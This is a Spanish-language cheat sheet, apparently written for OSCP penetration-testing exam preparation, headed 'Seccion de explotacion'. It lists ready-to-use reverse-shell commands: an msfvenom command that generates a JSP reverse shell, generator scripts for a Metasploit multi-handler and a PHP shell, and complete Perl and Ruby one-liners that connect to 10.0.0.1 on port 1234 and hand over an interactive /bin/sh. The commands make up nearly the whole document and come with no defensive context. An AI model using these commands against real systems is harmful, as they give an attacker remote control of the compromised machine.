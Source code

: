 # Seccion de explotacion

## Shell reversa

Previamente `export PAYLOAD=<nombre-payload>; export LHOST=<IP-local>; export LPORT=<puerto local>`

### Multi Handler
1) Generar un Multi Handler automatico --> `$OSCP/explotacion/multi-handler/generator.sh $PAYLOAD $LHOST $LPORT`

### Shell reversas

2) JSP  --> `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw > shell.jsp`

3) PHP  --> `$OSCP/explotacion/reverse-shells/php-reverse/generator.sh $LHOST $LPORT`

4) PERL --> `perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

5) RUBY --> `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

